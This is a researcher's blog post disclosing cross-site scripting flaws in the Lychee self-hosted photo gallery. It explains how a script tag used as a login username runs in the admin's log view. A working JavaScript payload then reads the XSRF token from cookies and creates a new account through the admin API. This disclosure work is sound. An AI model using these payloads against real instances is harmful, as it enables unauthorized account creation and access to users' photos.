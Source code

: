 Title: Cross-Site Scripting in Lychee
Date: 10-22-2022 14:25
category:security
tags:security, CVE, XSS
meta:security, CVE, XSS

<img class="align-left" src="/media/2022.10/xss_album_title_1.png" alt="XSS in Lychee" width="262">

[Lychee](https://lycheeorg.github.io/) is a self-hosted photo-management and gallery.
I am using the [Lychee](https://lycheeorg.github.io/) application for my personal usage (mostly
sharing pictures with the family).

The application has been greatly improved since the last update of my instance.
I fired up a [docker](https://hub.docker.com/r/lycheeorg/lychee) and start taking a look at the
application for new features.
It was not long before I found a few XSS, one of them could allow unauthenticated users to to gain
logged access to the platform by creating a new account.

I reported the issues to the project and we created a
[Github Security Advisory](https://docs.github.com/en/code-security/repository-security-advisories/about-github-security-advisories-for-repositories):
(https://github.com/LycheeOrg/Lychee-front/security/advisories/GHSA-cr79-38hg-27gv)[https://github.com/LycheeOrg/Lychee-front/security/advisories/GHSA-cr79-38hg-27gv].

<!-- PELICAN_END_SUMMARY -->

The lychee application create an administrator account the first time the application is browsed.
This account is the only one with administrative privileges (account management, logs and
diagnostics) and is expected to have full access to the underlying server (shell access). In
addition, this account has access to all photos and albums
uploaded by the different users.

All this privileges made this account attractive for XSS payloads and attacks.
Note that the session cookie was `HttpOnly` and that the `XSRF` cookie was not, it will matter later
in the exploitation phase.

# Insertion points

Only the admin can create a user account while there is a few authenticated insertions points
(photo and album title, username once the user changed it) they are not that interesting as the
admin probably trust the new users or even does not create user accounts.

![xss in album title](/media/2022.10/xss_album_title_0.png)
![xss in album title](/media/2022.10/xss_album_title_1.png)

I focused on unauthenticated insertion points.

## Logs logs logs

The admin user has access to a "Show Logs" administrative function. I quickly noticed that
authentication attempts where displayed in the logs including the user controlled `user` parameter.

## Log injection - alert(1)

It was relatively easy to try to login as the `<script>alert(1)</script>` user and trigger an alert
in the admin session (the screenshot below is when the user change its username but the result is the
same as we inject the logs).

![unauthenticated xss in album title](/media/2022.10/xss_username_log.png)

It is possible for an attacker to perform
[log injection](https://owasp.org/www-community/attacks/Log_Injection) using this entry point.

## Beyond alert(1)

I wanted to go beyond an alert pop-up, we want a user account. Using the username
`<script src='172.0.0.1/a.js"/>`, I was able to inject a longer JavaScript payload that would
request the API endpoint `User::create` passing in POST parameters its username, password and
privileges. I also retrieve the `X-XSRF-TOKEN` value from the cookie as it was not `HttpOnly` (I
recommended to the team to add this flag to the XSRF cookie but that
was not possible as they also needed to access it using JavaScript.)


    :::javascript
    fetch('http://172.17.0.2:80/api/User::create',{
        // create a POST request to be sent to the lychee instance located at `172.17.0.2`
        method: 'POST',
        // setup the headers
        headers: {
            'Content-Type': 'application/json',
            'Accept': 'application/json, text/javascript, */*; q=0.01',
            //the X-XSRF-TOKEN is retrieve from the cookie store as it is not `HttpOnly`
            'X-XSRF-TOKEN': document.cookie.split('=')[1].split('%')[0],
            'X-Requested-With': 'XMLHttpRequest',
    },
        // body of the request containing the payload to create a new user with upload privileges
        body: '{"username":"xss_1","password":"xss","may_upload":true,"is_locked":false}'
    })

Once the new account was created I was able to browse the application as an authenticated user and
upload photos and images on the server.

